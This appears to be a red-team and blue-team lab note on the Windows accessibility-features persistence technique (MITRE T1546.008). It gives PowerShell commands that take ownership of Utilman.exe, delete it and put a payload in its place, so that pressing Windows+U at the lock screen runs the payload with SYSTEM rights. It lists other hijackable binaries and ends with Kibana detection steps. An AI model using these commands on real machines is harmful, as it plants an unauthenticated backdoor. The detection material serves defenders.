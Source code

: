 # [Accessibility Features](https://attack.mitre.org/techniques/T1546/008/)

## **Exploit syntax:**

1. Get a beacon with `system` privileges. 

2. Put a payload on the victim box if it's not already present.

3. In parrot open a blank text file and paste the following commands into it and choose either to move or copy the payload on the third line then set the `<payload path>` to the payload location on the victim box
   
    ```powershell
    takeown /f c:\windows\system32\Utilman.exe /A;
	icacls c:\windows\system32\Utilman.exe /grant administrators:F;
	rm c:\windows\system32\utilman.exe;
	<move/copy> <payload path> c:\windows\system32\Utilman.exe;
    ```
4. Save the file with as` NoobNoob.ps1` to `/tmp` on parrot-vm
5. Run
	```sh
	sudo chmod +x /tmp/NoobNoob.ps1
	```

6.  In posh, run
    ```pwoershell
	pslo /tmp/NoobNoob.ps1
    ```
7. From the login lockscreen of the windows box, press the windows key and 'U'
and the payload will execute. No login is required. Should give you System privileges.   

  
### **Affected Programs**
| Description        | Executable        | Keyboard Shortcut         |
|--------------------|-------------------|---------------------------|
| Sticky Keys        | sethc.exe         | Shift 5 times             |
| On-Screen Keyboard | osk.exe           | Windows + Control + U     |
| Utility Manager    | utilman.exe       | Windows + U               |
| Display Switcher   | DisplaySwitch.exe | Windows + P               |
| App Switcher       | AtBroker.exe      | Alt + Tab                 |
| Magnifier          | Magnify.exe       | Windows + +               |
| Narrator           | Narrator.exe      | Windows + Control + Enter |


---

## **Detection Technique:**

* Observe common Windows Accessibility Features executables
	* sethc.exe 
	* Utilman.exe
	* osk.exe
	* Narrator.exe
	* Magnify.exe
* Within Kibana ( Using winlogbeat-* indices ):
	* Identify process creations by filtering `event.code: 1`
	* Add relevant fields to columns for search ease.
	* Correlate the `process.name` / `process.id` fields with the `process.parent.name` / `process.parent.id` fields.
	* Look at the `process.command_line` to see what the process actions were, if any.

---

## **Resources**

* https://dmfrsecurity.com/2021/09/10/accessibility-features-persistence/ 
* https://www.ired.team/offensive-security/persistence/t1015-sethc

### **Execution and Detection method explained**
* https://en.it-pirate.eu/windows-defender-atp-sticky-keys-binary-hijack-detected/